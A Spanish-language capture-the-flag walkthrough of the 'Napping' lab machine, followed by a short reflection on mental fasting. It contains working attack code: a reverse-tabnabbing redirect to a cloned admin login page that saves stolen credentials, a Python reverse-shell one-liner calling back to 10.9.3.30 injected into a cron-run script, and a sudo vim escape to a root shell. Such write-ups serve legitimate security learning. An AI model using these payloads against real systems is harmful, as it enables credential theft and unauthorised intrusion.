

# Napping

Comenzamos realizando un escaneo de puertos en la máquina objetivo.

```bash
nmap -sV -sC -p- -T4 <ip>
```

* -sV: Sondeo de puertos abiertos para determinar la información del servicio/versión
* -sC: equivalente a _--script=default_.
* -p-: Escanea todos los puertos de la Red (65536)
* -T4: La velocidad de escaneo de puertos.

Se han identificado cuatro puertos abiertos en el sistema: el puerto `22` para `SSH`, el `80` para `HTTP`.

<figure><figcaption></figcaption></figure>

Accedimos a la página web en el puerto **80** y creamos una cuenta para explorar su contenido.

<figure><figcaption></figcaption></figure>

Realizamos una enumeración de directorios en el puerto **80** para descubrir qué podemos encontrar.

<figure><figcaption></figcaption></figure>

Encontramos algunos directorios, pero no son nada inusuales, ya que no contamos con credenciales. Por lo tanto, revisemos la página web que se carga normalmente.

En la página, encontramos el siguiente mensaje:

```
# Please submit your link so that we can get started.  
All links will be reviewed by our admin who also built this site!
```


Esto nos proporciona un vector de ataque, ya que el administrador del sitio revisará el contenido que subamos.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Examinamos el código del sitio web en busca de posibles vectores de ataque y efectivamente encontramos **Reverse Tab Nabbing**. Esto se debe al atributo `target="_blank"`, que nos permite redirigir a una página clonada para robar credenciales.

```
Luego, una vez que la víctima haga clic en el enlace y acceda al sitio web de los atacantes, este sitio web malicioso podrá controlar la página original a través de la ventana del objeto JavaScript.
```

Para  saber mas de este ataque: 




Primero, como observamos en la enumeración del sitio web, podemos acceder a la página de inicio de sesión de los administradores `/admin/login.php`. Por lo tanto, necesitaremos clonarla y añadir un fragmento de código para capturar las credenciales.

Comenzamos creando nuestro **`index.php`**, que nos permitirá redirigir la página a nuestro servidor hacia la versión clonada.

```PHP
<!DOCTYPE html>
<html>
 <body>
  <script>
  window.opener.location = "http://<yourip>:<port>/index.php";
  </script>
 </body>
</html>
```

Clonamos la página de **`/admin/login.php`** y añadimos el siguiente código, que nos permite capturar y enviar a nuestro servidor las credenciales de un administrador mediante una solicitud **`POST`**.

``` PHP
<?php
	if(isset($_POST['username'])){
		file_put_contents('creds.txt', file_get_contents('php://input'));
	}

?>
```

El código final en `login.php` se presentaría de la siguiente manera.

``` PHP

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Login</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <style>
        body{ font: 14px sans-serif; }
        .wrapper{ width: 360px; padding: 20px; }
    </style>
</head>
<?php
	if(isset($_POST['username'])){
		file_put_contents('creds.txt', file_get_contents('php://input'));
	}

?>

<body>
    <div class="wrapper">
        <h2>Admin Login</h2>
        <p>Please fill in your credentials to login.</p>


        <form action="/admin/login.php" method="post">
            <div class="form-group">
                <label>Username</label>
                <input type="text" name="username" class="form-control " value="">
                <span class="invalid-feedback"></span>
            </div>    
            <div class="form-group">
                <label>Password</label>
                <input type="password" name="password" class="form-control ">
                <span class="invalid-feedback"></span>
            </div>
            <div class="form-group">
                <input type="submit" class="btn btn-primary" value="Login">
            </div>
            <br>
        </form>
    </div>
</body>
</html>


```

Ahora solo necesitamos iniciar un servidor `HTTP` para acceder a la URL de `index.php`, lo que permitirá redirigir a los usuarios a nuestro servidor con la página clonada.

<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>

De esta manera, conseguimos nuestras credenciales de administrador y accedemos a la página `/admin/login.php` para explorar su contenido. Sin embargo, lamentablemente, no encontramos nada interesante.

<figure><figcaption></figcaption></figure>

Finalmente, intentamos acceder a través del puerto `SSH` y confirmamos que podemos ingresar sin problemas.

<figure><figcaption></figcaption></figure>

# Shell \daniel

Al realizar la enumeración de procesos con `pspy64`, podemos observar que hay varios procesos que se ejecutan de manera regular.

```
2025/08/25 00:40:01 CMD: UID=0     PID=1805   | /bin/sh -c /usr/bin/rm /home/adrian/site_status.txt 
2025/08/25 00:40:01 CMD: UID=0     PID=1806   | /bin/sh -c /usr/bin/python3 /root/del_links.py 
2025/08/25 00:40:01 CMD: UID=0     PID=1807   | /bin/sh -c /usr/bin/python3 /root/nap.py 
2025/08/25 00:40:01 CMD: UID=1000  PID=1808   | /bin/sh -c /usr/bin/python3 /home/adrian/query.py 
2025/08/25 00:40:01 CMD: UID=0     PID=1809   | /usr/bin/python3 /root/del_links.py 

```

Verificamos que contamos con permisos de escritura en el archivo `/home/adrian/query.py`, y efectivamente los tenemos. Esto nos permite escalar privilegios a `adrian` si implementamos un reverse shell.

<figure><figcaption></figcaption></figure>

Incorporamos el siguiente código, especificando la dirección `IP` y el puerto del atacante.

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.3.30",4343));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")

```

Quedaría de la siguiente forma.

```
from datetime import datetime
import requests

now = datetime.now()

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.3.30",4343));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
r = requests.get('http://127.0.0.1/')
if r.status_code == 200:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Site is Up: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
else:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Check Out Site: ")
    f.write(dt_string)
    f.write("\n")
    f.close()

```

<figure><figcaption></figcaption></figure>
# Shell \adrian




Al ejecutar `sudo -l`, observamos que tenemos la capacidad de ejecutar `/usr/bin/vim` como root, por lo que decidimos investigar más al respecto.



A continuación, ejecutamos el siguiente comando.

```
sudo -u root /usr/bib/vim -c ':!/bin/sh'
```

<figure><figcaption></figcaption></figure>

De esta manera, logramos obtener la shell de root junto con su bandera.

<figure><figcaption></figcaption></figure>

****************

>*Tu mente se satura al consumir tanto contenido. Piensa en lo que sucede cuando comes en exceso: te sientes pesado, letárgico y te cuesta moverte. Tu cuerpo clama por un descanso para poder digerir todo lo que has ingerido. Lo mismo ocurre con tu mente. Te despiertas y, de inmediato, comienzas a consumir stories, tomas café mientras escuchas podcasts, almuerzas viendo videos, trabajas con música de fondo, te relajas con series y te duermes con ruido relajante.*
>
>*El problema no radica en cada una de estas actividades por separado, sino en la falta de pausas para tu mente. Nunca le das la oportunidad de procesar lo que ha consumido, lo que resulta en una indigesta mental constante. Naces en un vacío, sin aburrimiento ni silencio, en un espacio incómodo donde tu mente no tiene hambre. Se ve obligada a crear lo que te gustaría consumir.*
>
>*Si deseas volver a crear, considera hacer un ayuno mental. Dale a tu mente el tiempo que necesita para procesar, digerir y, finalmente, generar algo propio. Al final, tienes dos opciones: consumir la creatividad de otros o crear la tuya. La elección es tuya.*
>
><figure><figcaption></figcaption></figure>